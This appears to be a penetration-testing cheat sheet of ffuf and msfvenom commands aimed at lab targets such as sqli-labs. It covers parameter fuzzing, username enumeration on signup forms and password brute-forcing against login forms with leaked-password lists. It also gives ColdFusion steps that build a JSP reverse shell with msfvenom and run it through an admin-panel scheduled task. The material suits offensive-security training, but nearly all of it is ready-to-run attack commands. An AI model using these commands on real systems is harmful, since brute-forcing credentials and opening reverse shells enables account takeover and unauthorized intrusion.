 #### Fuzzing parameters

```
 ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?FUZZ=1' -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 39
```

#### Numeric wordlist as STDOUT

```
$ for i in {0..255}; do echo $i; done | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
```

#### Enumerating users

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/customers/signup -mr "username already exists"
```

Note that login form parameters may change so adjust the command accordingly.

#### Brute Forcing passwords in login forms

```
ffuf -u http://MACHINE_IP/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded'
```

OR

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

Note that login form parameters may change so adjust the command accordingly.

### Adobe ColdFusion

In Adobe coldfusion, we always try to find an exploit for an outdated version of it. If you managed to get access to the admin panel of coldfusion then your very next step is to add a scheduled task which executes a reverse shell. From the admin interface

```
Debuggingandlogging > add a scheduled task.
```

Adobe cold fusion is written in Java so your payload that you will upload needs to be in Java.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[your-ip] LPORT=[your-port] -f raw > payload.jsp
```

Trigger the payload by visiting \[domain.com/CFIDE/payload.jsp] While you create the scheduled task, you can define the location of the payload.
